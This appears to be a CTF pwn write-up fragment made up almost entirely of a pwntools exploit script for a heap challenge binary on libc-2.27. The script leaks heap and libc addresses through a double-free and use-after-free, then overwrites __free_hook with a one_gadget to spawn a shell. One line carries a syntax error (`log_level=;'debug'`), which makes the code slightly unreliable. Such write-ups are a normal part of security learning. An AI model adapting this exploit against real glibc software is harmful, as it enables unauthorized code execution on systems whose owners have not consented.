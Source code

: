 #### exp：

```python
from pwn import *
context(arch='amd64',endian='el',os='linux')
context.log_level=;'debug'
debug = 1
if debug == 1:
    p = process("./chall")
else:
    p = remote("")

elf = ELF("./chall",checksec=False)
libc = ELF("./libc-2.27.so",checksec=False)
one = [0x4f3d5,0x4f432,0x10a41c]

def add(size):
    p.sendlineafter("choice: ",str(1))
    p.sendlineafter("Index: ",str(1))
    p.sendlineafter("size: ",str(size))

def delete():
    p.sendlineafter("choice: ",str(2))
    p.sendlineafter("Index: ",str(1))

def show():
    p.sendlineafter("choice: ",str(3))
    p.sendlineafter("Index: ",str(1))
    
def edit(content):
    p.sendlineafter("choice: ",str(4))
    p.sendlineafter("Index: ",str(1))
    p.sendafter("Content: ",content)
    
add(0x60)
delete()
edit(p64(0)*2)
delete()
show()
heap_base = u64(p.recv(6).ljust(8,'\x00')) - 0x260
add(0x60)
add(0x60)
add(0x60)
delete()
add(0x40)
p.sendlineafter("choice: ",'a'*0x410)
add(0x60)
show()
libc.address = u64(p.recv(6).ljust(8,'\x00')) - 176 - 0x10 - libc.sym['__malloc_hook']
free_hook = libc.sym['__free_hook']
og = libc.address + one[0]
success("libc_address = " + hex(libc.address))
success("free_hook = " + hex(free_hook))
success("og = " + hex(og))
add(0x40)
delete()
edit(p64(0)*2)
delete()
add(0x40)
edit(p64(free_hook))
add(0x40)
add(0x40)
edit(p64(og))
delete()
```